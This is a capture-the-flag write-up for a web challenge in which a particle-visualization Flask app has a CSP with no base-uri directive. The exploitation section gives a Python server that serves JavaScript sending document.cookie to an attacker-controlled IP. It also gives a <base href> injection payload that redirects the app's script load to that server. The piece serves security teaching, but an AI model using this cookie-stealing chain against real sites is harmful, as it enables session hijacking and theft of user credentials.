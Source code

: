 ```yaml
---
layout: Post
type: chall
---
```

# ParticlePloy ⭐⭐

<a class="back-link" href="../../">< Go back</a>

## Description

A platform where you can create some nice particle visualizations.
Check it out but keep aware to make them visually appealing.

A website and [ParticlePloy/](./ParticlePloy/) were given.

## Challenge

### Reconnaisance

We have a particle creation webpage, lots of specific fields allow us to edit the particles.

More interestingly, `name` and `color` both are "string" type fields. This might come in handy.

Let's try to give it a random name and generate our particles. This gives a new webpage where we can see our particles in the background, this suggests that there is some javascript being executed in the background somewhere.

We are given the source code of the app for this challenge.

### Code analysis

Let's take a look around. `app/app.py` is pretty interesting, we learn that there are very strict rules for our two "string" fields we are mostly intersted in:

```py

class ParticleConfigForm(Form):
    name = StringField("A cool name for your particles!")
    # ...
    color = StringField(
        "Color (hexadecimal representation)",
        validators=[validators.Regexp(regex="^#([A-Fa-f0-9]{6}|[A-Fa-f0-9]{3})$")],
        default="#000000",
    )
    # ...
```

Appart from these strict rules, we also have a pretty heavy sanitization, using `html-sanitizer`.

And we also learn that a `custom_particle_config.js` file is generated for each particle:

```py
@blueprint.route("/particles/<uuid>/custom_particle_config.js", methods=["GET"])
def custom_particle_js(uuid):
    pc = db.get_particle_config(uuid)
    particles_config = pc["config"]

    return Response(
        response=render_template("particles.js", particles_config=particles_config),
        status=200,
        mimetype="application/javascript",
    )
```

Let's take a look at the template at `app/templates/particles.js`:

{% raw %}

```js
window.onload = function() {
    config = {{ particles_config }}
    config['selector'] = '.background';
    Particles.init(config);
};
```

Then this template gets injected and ran in `app/tempaltes/view.html`:

```html
<script nonce="{{ csp_nonce() }}">
    let script = document.createElement('script');
    script.src = document.getElementById('custom_particles').innerText;
    document.body.appendChild(script);
</script>
```

{% endraw %}

But it appears to be "nonce-protected". Let's take a look at the CSP configurations and at sanitization.

#### Protection

In `app/app.py` we find the following:

```py
def create_app() -> Flask:
    app = Flask(__name__)

    Talisman(
        app,
        force_https=False,
        content_security_policy={"script-src": ["'strict-dynamic'"]},
        content_security_policy_nonce_in=["script-src"],
    )
    # ...
```

This is a pretty strict CSP, but it allows for `strict-dynamic` scripts. This means that we can inject scripts as long as they are generated by the app itself. Which seems logical as that is what the app is meant to do. Cool we are starting to see a vector of attack.

Just below the `create_app` function we find the rules applied by `html-sanitizer`, though they are commented out and don't really apply any sanitization.

#### Admin

We've explored the `app/` folder let's take a look at the `admin-simulation/` now. Here we learn three things:

1. Both `app/` and `admin-simulation/` share the same database.
2. There is a `session` cookie that contains the FLAG!
3. The `admin-simulation/main.py` runs a headless browser that loads once every 2s each particle webpage, executing the `custom_particle_config.js` script in the process.

Okay we have an objective, and our vector of attack is getting clearer.

It appears we have to somehow inject malicious content inside the `custom_particle_config.js` script, and have the admin-simulation load it, if we manage to maybe get a simple request back to our server, we can steal the `document.cookies` and get the flag.

### Exploitation

#### Setting up our callback server

Let's not go too complicated on this, we just want a simple HTTPServer, that sends a new payload that requests the document.cookies when called:

```py
from http.server import BaseHTTPRequestHandler, HTTPServer

class Server(BaseHTTPRequestHandler):
    def do_GET(self):
        print("COOKIES:\n", self.headers['Cookie'])
        print("headers:\n", self.headers)
        print("URL:\n", self.path)
        js_code = '''
        var cookies = document.cookie;
        fetch(`https://<IP>?flag=${encodeURIComponent(document.cookie)}`, {
            method: 'GET',
        })
        '''
        self.send_response(200)
        self.send_header('Content-type', 'application/javascript')
        self.end_headers()
        self.wfile.write(js_code.encode('utf-8'))

def run(server_class=HTTPServer, handler_class=Server, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()

if __name__ == '__main__':
    run()

```

#### Crafting our payload

After looking at [csp-evaluator](https://csp-evaluator.withgoogle.com/) we can quickly see that the CSP configuration is missing a critical element, `base-uri`. This means that we can inject a `<base>` tag as the `name` of our particle and have it point to our malicious server.

So first step, start the malicious server.

Second generate a new particle with the following name:

```html
<base href="http://<IP>:8000/"/>
```

And finally, we get the flag as an URIEncoded element, let's just run it through CyberChef's "parse URI" tool and we get the flag.
